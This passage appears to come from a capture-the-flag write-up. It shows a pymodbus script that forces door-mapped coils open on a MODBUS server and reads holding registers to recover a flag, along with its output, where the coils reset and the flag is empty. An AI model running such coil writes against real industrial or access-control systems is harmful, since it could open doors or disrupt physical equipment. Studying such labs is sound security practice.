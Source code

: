 ```python
    COIL_COUNT = len(COIL_VALUES)  # Number of Coils to read


    if client.connect():
        # Writing coils
        response = client.write_coils(COIL_START, COIL_VALUES)

        if not response.isError():
            print("Coils written successfully")
        else:
            print("Error writing coils:", response)

        time.sleep(10)

        # Reading coils
        read_response = client.read_coils(COIL_START, COIL_COUNT)
        if not read_response.isError():
            print("Coils values read:", read_response.bits)
        else:
            print("Error reading coils:", read_response)

        time.sleep(10)
       
        if client.connect():
        
          # Reading from Holding Registers
            read_response = client.read_holding_registers(FLAG_ADDR_HOLDING_REGISTER, FLAG_COUNT)
            if not read_response.isError():
                print("Register values read:", read_response.registers)
            else:
                print("Error reading registers:", read_response)

            FLAG = ''.join([chr(char) for char in read_response.registers])
            print('FLAG:', FLAG)
            # Close the connection
            client.close()
        else:
            print("Failed to connect to MODBUS server")

        # Close the connection
        client.close()
    else:
        print("Failed to connect to MODBUS server")

```

Executing the above codes indicates that the coils mapped to the doors (0x01 and 0x02) are false after a certain amount of time even though we forced them open.

```
python3 write_coils.py

Coils written successfully
Coils values read: [False, False, False, False, False, False, False, False]
Register values read: [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
FLAG:
```
